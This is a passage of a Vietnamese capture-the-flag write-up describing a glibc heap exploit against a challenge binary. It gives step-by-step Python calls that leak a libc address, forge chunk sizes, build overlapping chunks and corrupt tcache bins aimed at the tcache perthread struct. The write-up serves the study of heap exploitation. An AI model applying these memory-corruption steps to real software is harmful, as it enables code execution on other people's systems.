 ![](../img/2020-11-14-11-57-23.png)  

```python
buy(4, 0x80)
sell(2)
show(4)
```

Xong công việc đơn giản nhất là leak :v Để dễ làm việc thao tác, clear các con trỏ đã có đi :vv  

```
sell(0)
sell(1)
sell(3)
```

Không thể clear chunk 4 vì gặp lỗi double free :'( . Dead pointer.  

## STEP 3 : Create fake chunk on tcache perthread struct  

Bước đầu tiên, mình sẽ chuẩn bị vùng nhớ như sau :  

```python
buy(0, 0x820)
buy(1, 0x410)
buy(2, 0x410)
buy(3, 0x80)
buy(5, 0x80)
buy(6, 0x80, b'a' * 0x78 + p64(0x91))
buy(7, 0x80, b'a' * 0x78 + p64(0x91))
```

Vùng nhớ này sẽ được dùng trong các bước sau, mình sẽ note lại lí do.  
Đầu tiên, chunk 0 tồn tại để clear hết unsorted bin.  

### STEP 3.1 : Create overlap chunk  

Tiếp tục làm tương tự như bước lần trước, ta sẽ tạo một overlap chunk từ chunk 2 trỏ thẳng tới fake chunk có size là 0x91 trong chunk 6. Do vậy, trong trường hợp này có 3 chunk bị overlap là chunk 3,5, 6. Đẩy nó vào unsorted bin. Ta có một unsorted bin có độ lớn là `0x5c0`.  
Do các điều kiện check khi free `unsorted bin` nên chúng ta cần tạo 2 chunk giả tại chunk 6 và chunk 7 :v Lí do ta không trỏ thẳng tới chunk 7 sẽ được giải thích sau :v  

```
upgrade(1, b'a' * 0x418 + p64(0x5c1))
sell(2)
```

### STEP 3.2 : tạo tcache 0x20, 0x30  

Với 2 chunk bị overlap như trên, ta có thể malloc 1 vùng nhớ mới để ghi đè lên size của hai thằng này thành `0x21` và `0x31`.  
Khi free tcache nó không kiểm tra điều kiện nhiều nên sẽ không có lỗi gì bị detect.  
